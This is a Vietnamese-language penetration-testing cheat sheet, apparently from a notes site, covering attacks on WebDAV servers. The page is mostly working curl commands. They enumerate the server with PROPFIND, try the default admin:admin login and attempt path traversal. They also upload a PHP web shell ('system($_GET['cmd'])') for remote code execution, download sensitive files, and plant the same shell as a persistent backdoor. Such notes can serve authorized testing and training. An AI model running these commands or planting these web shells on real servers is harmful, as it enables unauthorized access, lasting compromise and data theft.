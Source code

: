 ## WebDAV (Port 80, 443)

## Connect

### WebDAV Client

Sử dụng client như Windows Explorer, macOS Finder, Cyberduck, hoặc WinSCP để kết nối tới máy chủ WebDAV với URL và thông tin đăng nhập:

### curl

Sử dụng cURL hoặc cadaver để kết nối và tương tác với máy chủ WebDAV:

```
curl -u <username>:<password> -X PROPFIND http://<ip>/webdav/
```

***

## Enumeration

### Liệt kê tệp và thư mục

Sử dụng phương thức PROPFIND để liệt kê tệp và thư mục trên máy chủ WebDAV:

```
curl -u <username>:<password> -X PROPFIND http://<ip>/webdav/
```

***

## Attack Vectors

### Đăng nhập với thông tin mặc định

Khai thác cấu hình sai hoặc thông tin đăng nhập yếu để truy cập trái phép:

```
curl -u admin:admin -X PROPFIND http://<ip>/webdav/
```

### Thao tác tệp cho RCE

Tải lên tệp độc hại (như script PHP hoặc ASP) để thực thi mã từ xa trên máy chủ:

{% code overflow="wrap" %}

```
curl -u <username>:<password> -X PUT -d "<?php system(\$_GET['cmd']); ?>" http://<ip>/webdav/shell.php
```

{% endcode %}

Thực thi lệnh qua URL: http\:///webdav/shell.php?cmd=

***

## Post-Exploitation

### Khai thác cấu hình sai

Khai thác các cấu hình sai như quyền truy cập thư mục hoặc vượt thư mục để leo thang đặc quyền:

```
curl -u <username>:<password> -X PROPFIND http://<ip>/webdav/../
```

### Trích xuất dữ liệu

Tải xuống tệp nhạy cảm từ máy chủ WebDAV để trích xuất dữ liệu:

```
curl -u <username>:<password> http://<ip>/webdav/<file> -o <local_file>
```

### Duy trì truy cập

Tải lên backdoor hoặc sửa đổi cấu hình để duy trì truy cập lâu dài:

{% code overflow="wrap" %}

```
curl -u <username>:<password> -X PUT -d "<?php system(\$_GET['cmd']); ?>" http://<ip>/webdav/backdoor.php
```

{% endcode %}